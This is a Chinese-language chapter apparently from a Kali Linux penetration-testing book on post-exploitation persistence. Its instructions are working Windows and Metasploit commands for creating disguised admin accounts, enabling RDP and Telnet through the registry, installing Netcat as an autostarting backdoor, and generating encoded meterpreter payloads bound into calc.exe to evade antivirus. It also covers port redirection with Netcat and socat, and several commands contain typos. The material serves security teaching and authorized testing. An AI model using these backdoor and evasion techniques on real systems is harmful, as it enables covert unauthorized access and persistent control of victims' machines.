

# 第六章：后期利用 - 持久性

攻击者杀伤链的最后阶段是“命令、控制和通信”阶段，攻击者依赖与被攻击系统的持久连接，以确保他们可以继续保持控制。

为了有效，攻击者必须能够保持**交互式持久性** - 他们必须与被利用的系统保持双向通信渠道（交互式），而不被发现地在被攻击系统上长时间保持（持久性）。这种连接的要求是因为以下原因：

+   网络入侵可能会被检测到，并且被攻击的系统可能会被识别并修补

+   一些漏洞只能利用一次，因为漏洞是间歇性的，利用会导致系统失败，或者因为利用迫使系统改变，使漏洞无法使用

+   攻击者可能需要多次返回同一目标出于各种原因。

+   在目标被攻击时，其有用性并不总是立即知晓

用于保持交互式持久性的工具通常被称为经典术语，如**后门**或**rootkit**。然而，自动恶意软件和人为攻击对长期持久性的趋势已经模糊了传统标签的含义；因此，我们将持久代理指的是旨在长期留在被攻击系统上的恶意软件。

这些持久代理为攻击者和渗透测试人员执行许多功能，包括以下功能：

+   允许上传额外的工具来支持新的攻击，特别是针对位于同一网络上的系统。

+   促进从被攻击系统和网络中窃取数据。

+   允许攻击者重新连接到被攻击的系统，通常通过加密通道以避免被发现。已知持久代理在系统上保留了一年以上。

+   采用反取证技术以避免被发现，包括隐藏在目标的文件系统或系统内存中，使用强身份验证和使用加密。

在本章中，您将了解以下内容：

+   损害现有系统和应用程序文件以进行远程访问

+   创建持久代理

+   使用 Metasploit Framework 保持持久性

+   重定端口以绕过网络控制

# 为了远程访问而损害现有系统和应用程序文件

最佳的持久代理是不需要隐藏的代理，因为它是受损系统现有文件结构的一部分；攻击者只需添加某些功能来将常规系统文件和应用程序转换为持久代理。这种方法几乎永远不会被入侵检测系统等安全控制发现。

## 远程启用 Telnet 服务

用于保持远程访问的一种技术是使用 Metasploit Framework 在 Windows 平台上启用 Telnet 服务，并使用它提供持久性。

第一步是损害目标系统以获得 meterpreter 会话（迁移会话以确保稳定的 shell），然后提升访问特权。

接下来，使用以下命令获取本地命令 shell 以访问目标系统：

```
meterpreter> execute -H -f cmd -i

```

执行此命令时，会创建一个交互式命令 shell（`-i`），作为隐藏进程（`-H`）。

使用 shell 的命令提示符，创建一个新的用户帐户。在创建用户帐户以确保持久性时，许多攻击者使用以下两部分策略：

+   创建一个帐户，如果被调查，会引起注意（例如，Leet7737）

+   创建一个看起来像是正常系统功能的帐户，比如`Service_Account`，使用以下命令：

```
C:\net user Service_Account password /ADD
C:\net localgroup administrators Service_Account /ADD

```

创建新用户帐户后，退出 Windows 命令 shell。

要启用 Telnet，请从`meterpreter`提示符中运行以下命令：

```
run gettelnet -e

```

执行前一个命令的结果如下截图所示：


在前一个截图中显示的脚本在受损系统上创建了一个持久的 Telnet 服务。要访问它，请使用 Telnet 协议连接到系统的 IP 地址，并提供用于创建帐户的用户名和密码，如下一个截图所示：



Telnet 服务将持续存在，直到被移除。不幸的是，使用 Telnet 存在一些限制：它很容易被发现（特别是因为凭据是明文传输的），并且它只能在命令行模式下运行。

但是，如果您需要 GUI 来访问受损系统上的某些应用程序呢？

## 远程启用 Windows 终端服务

确保远程访问的最可靠技术之一是持久地启用 Windows 终端服务，也称为**远程桌面协议**（**RDP**）。为此，您必须具有管理员特权，并了解目标操作系统的版本。

例如，如果目标是 Windows 7，使用`meterpreter`在目标上获取交互式命令 shell，然后输入以下命令更改注册表：

```
C:\ reg add "hklm\system\currentControlSet\Control\Terminal
  Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
C:\reg add "hklm\system\currentControlSet\Control\Terminal
  Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f 

```

为了确保 RDP 能够通过客户端防火墙，使用以下命令添加规则：

```
C:\ netshadvfirewall firewall set rule group="remote desktop"new enable=Yes

```

现在我们可以使用以下命令启动 RDP 服务：

```
C:\net start Termservice

```

更改启动 RDP 还不是持久的；每次计算机启动时使用以下命令启动 RDP：

```
C:\sc configTermService start= auto

```

启用 RDP 的过程并不太复杂，但应该编写脚本以减少错误的可能性，特别是在处理系统注册表时。幸运的是，`meterpreter`框架使用`GETGUI`脚本自动启用 RDP 服务。

从`meterpreter`提示符运行时，以下屏幕截图中显示的命令行创建了帐户的用户名和密码，隐藏了帐户，使其在登录屏幕上不可见，并对注册表进行了必要的更改以保持持久性。以下屏幕截图显示了用于创建一个看起来像是合法帐户（服务帐户）的用户名的命令，密码很简单。


要连接到受损的远程桌面，请使用 Kali 的**rdesktop**程序。

## 远程启用虚拟网络计算

如果系统包含已知受损的应用程序（特别是远程访问程序），可能可以利用现有的漏洞来利用系统。例如：

+   可能可以从注册表中提取一些程序的远程访问密码。VNC 将密码存储在注册表中，可以通过手动提取注册表键或上传和执行诸如 NirSoft 的 VNCPassView 之类的应用程序来获取这些密码。

+   不同版本的 VNC 包含可以利用的不同漏洞，以便破坏应用程序并远程访问系统。如果用户安装了当前版本，可能可以卸载该版本并安装旧版本。由于各个版本之间功能的相似性，用户可能不会注意到替换，但攻击者可以利用旧版 VNC 中发现的身份验证绕过漏洞在后期保持访问。

Metasploit 具有直接使用 VNC 将 VNC 直接引入受攻击系统的能力，使用 VNCINJECT 模块。

在下面的屏幕截图中，VNC 被选为有效载荷，而不是常规的`reverse_TCP` shell：


此攻击不需要任何身份验证。如果您正在测试客户端站点，请确保一旦漏洞已被证明，所有易受攻击的应用程序都已从受损系统中移除 - 否则，您已经创建了一个可以被其他攻击者找到并使用的访问点！

# 使用持久代理

传统上，攻击者会在受损系统上放置后门 - 如果“前门”为合法用户提供授权访问，后门应用程序允许攻击者返回到受攻击的系统并访问服务和数据。

不幸的是，传统的后门提供了有限的交互性，并且并不是设计为在受损系统上持久存在很长时间。这被攻击者社区视为一个重大缺点，因为一旦发现并移除了后门，就需要额外的工作来重复妥协步骤并利用系统，而被警告的系统管理员在防御网络及其资源方面更加困难。

Kali 现在专注于持久代理，如果正确使用，将更难以检测。我们将首先审查的工具是备受尊敬的 Netcat。

## 将 Netcat 作为持久代理

Netcat 是一个支持使用“原始”TCP 和 UDP 数据包从和向网络连接读写的应用程序。与 Telnet 或 FTP 等服务组织的数据包不同，Netcat 的数据包不附带特定于服务的头部或其他通道信息。这简化了通信，并允许几乎通用的通信通道。

Netcat 的最后一个稳定版本是由 Hobbit 于 1996 年发布的，它一直像以往一样有用；事实上，它经常被称为**TCP/IP 瑞士军刀**。Netcat 可以执行许多功能，包括以下内容：

+   端口扫描

+   横幅抓取以识别服务

+   端口重定向和代理

+   文件传输和聊天，包括对数据取证和远程备份的支持

+   用作后门或交互式持久代理，在受损系统上

此时，我们将专注于使用 Netcat 在受损系统上创建持久 shell。尽管以下示例使用 Windows 作为目标平台，但在基于 Unix 的平台上使用时功能相同。

在下面的截图中显示的示例中，我们将保留可执行文件的名称—`nc.exe`；但是，通常在使用之前将其重命名以最小化检测。即使它被重命名，通常也会被杀毒软件识别；许多攻击者会修改或删除 Netcat 源代码中不需要的部分，并在使用之前重新编译它；这些更改可以改变杀毒软件用于识别应用程序为 Netcat 的特定签名，使其对杀毒软件不可见。

Netcat 存储在 Kali 的`/usr/share/windows-binaries`存储库中。要将其上传到受损系统，请在`meterpreter`中输入以下命令：

```
meterpreter> upload/usr/share/windows-binaries/nc.exe
C:\\WINDOWS\\system32 

```

前一个命令的执行结果显示在以下截图中：


您不必将其专门放在`system32`文件夹中；但是，由于此文件夹中的文件类型数量和多样性，这是在受损系统中隐藏文件的最佳位置。

### 提示

在对一个客户进行渗透测试时，我们在一个服务器上发现了六个独立的 Netcat 实例。Netcat 被两个不同的系统管理员安装了两次，以支持网络管理；其他四个实例是由外部攻击者安装的，在渗透测试之前没有被发现。因此，始终查看目标系统上是否已安装了 Netcat！

如果您没有`meterpreter`连接，可以使用**Trivial File Transfer Protocol**（**TFTP**）来传输文件。

接下来，配置注册表以在系统启动时启动 Netcat，并确保它在 444 端口上监听（或者您选择的任何其他端口，只要它没有被使用），使用以下命令：

```
meterpreter>reg setval -k
  HKLM\\software\\microsoft\\windows\\currentversion\\run -vv nc
  -d 'C:\\windows\\system32\\nc.exe -Ldp 444 -e cmd.exe' 

```

使用以下`queryval`命令确认注册表中的更改已成功实施：

```
meterpreter>reg queryval -k
  HKLM\\software\\microsoft\\windows\\currentverion\\run -vv nc 

```

使用`netsh`命令，在本地防火墙上打开一个端口，以确保受损系统将接受对 Netcat 的远程连接。了解目标操作系统是很重要的。`netsh advfirewall firewall`命令行上下文用于 Windows Vista 和 Windows Server 2008 及更高版本；`netsh firewall`命令用于早期操作系统。

要向本地 Windows 防火墙添加端口，请在`meterpreter`提示符处输入`shell`命令，然后使用适当的命令输入`rule`。在命名`rule`时，使用一个像`svchostpassthrough`这样的名称，表明`rule`对系统的正常运行很重要。示例命令如下所示：

```
C:\Windows\system32>netsh firewall add portopening TCP 444
  "service passthrough" 

```

使用以下命令确认更改已成功实施：

```
C:\windows\system32>netsh firewall show portopening

```

前面提到的命令的执行结果显示在以下截图中：


确认端口规则后，确保重启选项有效。

+   从`meterpreter`提示符输入以下命令：

```
meterpreter> reboot

```

+   从交互式 Windows shell 中输入以下命令：

```
C:\windows\system32>shutdown –r –t 00

```

要远程访问受损系统，请在命令提示符中输入`nc`，指示连接的详细程度（`-v`报告基本信息，`-vv`报告更多信息），然后输入目标的 IP 地址和端口号，如下截图所示：


不幸的是，使用 Netcat 存在一些限制—没有传输数据的身份验证或加密，并且几乎所有杀毒软件都会检测到它。

可以使用**cryptcat**解决加密问题，它是 Netcat 的变体，使用 Twofish 加密来保护被攻击主机和攻击者之间传输的数据。由 Bruce Schneier 开发的 Twofish 加密是一种先进的对称分组密码，为加密数据提供了相当强的保护。

要使用`cryptcat`，确保有一个准备好并配置了强密码的监听器，使用以下命令：

```
root@kali:~# cryptcat –k password –l –p 444

```

接下来，上传`cryptcat`到被攻击系统，并使用以下命令配置它连接到监听器的 IP 地址：

```
C:\cryptcat –k password <listener IP address> 444

```

不幸的是，Netcat 及其变体仍然可以被大多数杀毒软件检测到。可以使用十六进制编辑器修改 Netcat 的源代码使其不可检测；这将有助于避免触发杀毒软件的签名匹配动作，但这可能是一个漫长的反复试验过程。更有效的方法是利用 Metasploit Framework 的持久性机制。

# 使用 Metasploit Framework 保持持久性

Metasploit 的`meterpreter`包含几个支持在被攻击系统上保持持久性的脚本。我们将研究两个脚本选项，用于在被攻击系统上放置后门：`metsvc`和`persistence`。

## 使用 metsvc 脚本

`metsvc`脚本是`meterpreter`的网络服务包装器，允许它被用作 Windows 服务或作为命令行应用程序运行。它通常被用作后门，以维持与被攻击系统的通信。

要使用`metsvc`，首先要攻击系统，然后将`meterpreter`迁移到`explorer.exe`进程，以获得更稳定的 shell。

通过调用`run`命令执行`metsvc`代理，如下截图所示。可以看到，它创建了一个临时安装目录，上传了三个文件（`metsrv.dll`，`metsvc-server.exe`和`metsvc.exe`），然后启动了`metsvc`。


要与持久的`metsvc`代理进行交互，攻击者打开 Metasploit Framework，并选择`use exploit/multi/handler`，载荷为`windows/metsvc_bind_tcp`，如下截图所示。还设置了其他参数（IP 地址和端口）。


当执行`exploit`命令时，会直接在两个系统之间打开一个会话，允许从`meterpreter`命令行执行权限提升和其他功能。执行`exploit`命令如下截图所示：


`metsvc`脚本不需要身份验证；一旦代理就位，任何人都可以使用它来访问被攻击系统。大多数攻击者不会在不修改源代码以要求身份验证或确保有某种方法来过滤远程连接的情况下使用它。

更重要的是，这不是一个隐秘的攻击。任何尝试列出运行中的进程，比如从`meterpreter`提示输入`ps`命令，都会识别出`metsvc`服务以及可疑地从`Temp`目录运行的可执行文件！在下面的截图中，位于 Temp 文件夹中的具有随机名称（CvjrsZWOMK）的目录明显标志着系统已被攻击：


简单检查`Temp`文件夹将识别出三个敌对文件，如下截图所示；然而，这些通常会在手动检查之前被杀毒软件标记。


## 使用持久性脚本

获得持久性的更有效方法是使用`meterpreter`提示的`persistence`脚本。

在系统被利用并且迁移命令已将初始 shell 移动到更安全的服务之后，攻击者可以从`meterpreter`提示符中调用`persistence`脚本。

在命令中使用`-h`将识别创建持久后门的可用选项，如下面的屏幕截图所示：


在下面的屏幕截图中的示例中，我们已经配置`persistence`在系统启动时自动运行，并尝试每 10 秒连接到我们的监听器。监听器被标识为远程系统（`-r`）具有特定的 IP 地址和端口。此外，我们可以选择使用`-U`选项，它将在用户登录到系统时启动持久性。


### 注意

请注意，我们已经任意选择了端口 444 供持久性使用；攻击者必须验证本地防火墙设置，以确保该端口是开放的，或者使用`reg`命令打开该端口。与大多数 Metasploit 模块一样，只要端口尚未被使用，就可以选择任何端口。

`persistence`脚本将 VBS 文件放在临时目录中；但是，您可以使用`-L`选项指定不同的位置。该脚本还将该文件添加到注册表的本地自动运行部分。

因为`persistence`脚本没有经过身份验证，任何人都可以使用它来访问受损系统，因此应在发现或完成渗透测试后尽快从系统中删除。要删除脚本，请确认清理资源文件的位置，然后执行以下`resource`命令：

```
meterpreter> run multi_console_command -rc
  /root/.msf4/logs/persistence/RWBEGGS-
  1E69067_20130920.0024/RWBEGGS-1E69067_20130920.0024.rc 

```

# 使用 Metasploit 创建独立的持久代理

Metasploit 框架可用于创建一个独立的可执行文件，可以在受损系统上持久存在并允许交互式通信。独立包的优势在于可以提前准备和测试以确保连接，并进行编码以绕过本地防病毒软件。

要创建一个简单的独立代理，请在 Kali 的命令提示符上启动`msfconsole`。

使用`msfpayload`来制作持久代理。在下面的屏幕截图中的示例中，代理被配置为使用`reverse_tcp` shell，将连接到端口`4444`上的本地主机`192.168.43.130`。名为`attack1.exe`的代理将使用 win32 可执行文件模板。


独立代理只能在未安装防病毒软件的受损系统上运行，或者如果使用适当的`meterpreter`命令先禁用了防病毒软件。要绕过防病毒软件，必须对后门进行编码。

有几种不同的选项可以对有效载荷进行编码，如下面的屏幕截图所示：


要查看可用选项，请使用`show encoders`命令。

Metasploit 使用大约 30 种不同的编码器；默认情况下，如果未指定编码器，它将选择最合适的编码器。

一个很好的通用编码器是`shikata_ga_nai`。该编码器实现了多态 XOR 加反馈编码，针对 4 字节密钥，是 Metasploit 唯一被评为“优秀”的编码器。

要对先前准备的`attack.exe`代理进行编码，我们使用以下命令：

```
msf>msfencode -i attack.exe -o encoded_attack.exe -e
  x86/shikata_ga_nai -c 5 -t exe 

```

这使用`shikata_ga_nai`协议对`attack.exe`代理进行了五次编码。每次重新编码，它都变得更难检测。但是，可执行文件的大小也会增加。

完整的有效载荷可以直接从 Kali 的命令行中创建。不仅可以对其进行编码，还可以配置编码模式以避免特定字符。例如，在编码持久代理时应避免以下字符，因为它们可能导致攻击被发现和失败：

+   `\x00`代表 0 字节地址

+   `\xa0` 代表换行

+   `\xad` 代表回车

要创建多重编码的有效负载，请使用以下命令：

```
msf>msfpayload windows/meterpreter/bind_tcp
  LPORT=444 R| msfencode -e x86/shikata_ga_nai -c 5 -t raw -a
  x86 -b '\x00\x0a\x0d' -c 5 -x /root/Desktop/attack.exe -o
  /root/Desktop/encoded_attack.exe 

```

您还可以将`msfpayload`编码为现有的可执行文件，修改后的可执行文件和持久代理都将起作用。要将持久代理绑定到一个可执行文件（如计算器（`calc.exe`）），首先将适当的`calc.exe`文件复制到 Metasploit 的模板文件夹中，位于`/usr/share/metasploit-framework/data/templates`。当模板就位时，使用以下命令：

```
msf>msfpayload windows/meterpreter/bind_tcp
  LPORT=444 R| msfencode -t exe -* calc.exe -k -o
  encoded_calc_attack.exe -e x86/shikata_ga_nai -c 5 

```

代理可以放置在目标系统上，重命名为`calc.exe`以替换原始的计算器，然后执行。

不幸的是，几乎所有 Metasploit 编码的可执行文件都可以被客户端防病毒软件检测到。这归因于渗透测试人员向 VirusTotal（[www.virustotal.com](http://www.virustotal.com)）等网站提交了加密的有效负载。然而，您可以创建一个可执行文件，然后使用 Veil-Evasion 对其进行加密，如第四章 *利用*中所述。

# 重定向端口以绕过网络控制

到目前为止，我们已经检查了对受攻击系统的远程控制访问，就好像我们在受害者和攻击者的机器之间有直接连接；然而，这种连接通常受到网络设备（如防火墙）的控制或阻止。

攻击者可以通过端口重定向来规避这些控制，这是一个指定的系统，它监听定义的端口并将原始数据包转发到特定的次要位置。

Kali 提供了几个支持端口重定向的工具，包括`nc`、`cryptcat`、`socat`、`ssh`、`fpipe`和 Metasploit 的`meterpreter`；我们将在以下部分中看一些示例。

## 示例 1 - 简单的端口重定向

简单的端口重定向可能会被使用，例如，如果您已经在网络外部的**非军事区**（**DMZ**）上损坏了一个系统，并且需要能够从远程位置与内部系统进行通信。

在 DMZ 中受损的系统上，配置一个 Netcat 实例来监听传入命令并将其转发到目标，使用以下命令：

```
root@kali:~# nc -l -p 44444 -e <TAGET IP> 444

```

这个命令将调用 Netcat（`nc`）来监听（`-l`）传入的流量，并执行（`-e`）将这些传入的流量传输到端口`444`上的目标。端口不是固定的，它们不必在监听/转发主机和最终目标上相同。

如果您缺乏有关目标内部网络的完整信息，可以尝试以下命令：

```
root@kali:~# nc -l -p <local listening port> -c "nc <TARGET IP> 
  <TARGET port> 

```

这个命令将设置本地（攻击者）Netcat 实例监听（`-l`）指定的端口，然后指示 Netcat 在每次新连接（`-c`）时创建一个新进程。

这个简单的例子允许外部人员连接到直接网络；然而，它不允许双向数据连接，这对于一些工具是必需的。

## 示例 2 - 双向端口重定向

考虑三个独立的 Windows 数据系统：

[攻击者] | [转发者] | [目标]

为了使用 Netcat 创建双向通信通道，我们将不得不使用命名管道。命名管道，也称为 FIFO，是一种创建定义的进程间通信的方法；这使我们可以将其处理为一个对象，在发出命令时更容易管理。在以下示例攻击中，我们创建一个名为`reverse`的命名管道来处理双向通信。

攻击者在他的本地系统上有一个 Netcat 实例，使用以下命令监听端口`6661`：

```
nc -l 6661

```

转发者，一个安装了 Netcat 实例的受损主机，将监听传入的数据包并将其转发到目标；它被配置为使用以下命令在端口`6666`上监听：

```
nc -l 6666

```

在目标系统上，输入以下命令来创建命名管道：

```
mkfifo reverse

```

然后，配置本地的 Netcat 实例，使用命名管道建立跨转发系统与攻击者之间的双向通信，命令如下：

```
nc localhost 6661 0<reverse | nc localhost 6666 1>reverse

```

使用`socat`也可以实现相同的双向数据流，该工具旨在实现这种类型的连接。此示例的命令将从目标系统执行，并使用：

```
socat tcp:localhost:6661 tcp:localhost:6646

```

# 总结

在本章中，我们关注了攻击者杀伤链的最后阶段——命令、控制和通信阶段——在这个阶段，攻击者使用持久代理与被攻击系统进行通信。

这就结束了本书的第一部分，我们在其中详细研究了攻击者的杀伤链，以了解如何将其应用于对网络或孤立系统的妥协。

在第二部分中，*交付阶段*，我们将研究使用各种利用路径的杀伤链的具体应用。在第七章中，*物理攻击和社会工程*，我们将重点关注物理安全和社会工程攻击。主题将包括攻击方法论概述，制作恶意 USB 设备和流氓微型计算机，社会工程工具包，以及测试系统对钓鱼攻击的抵抗力。
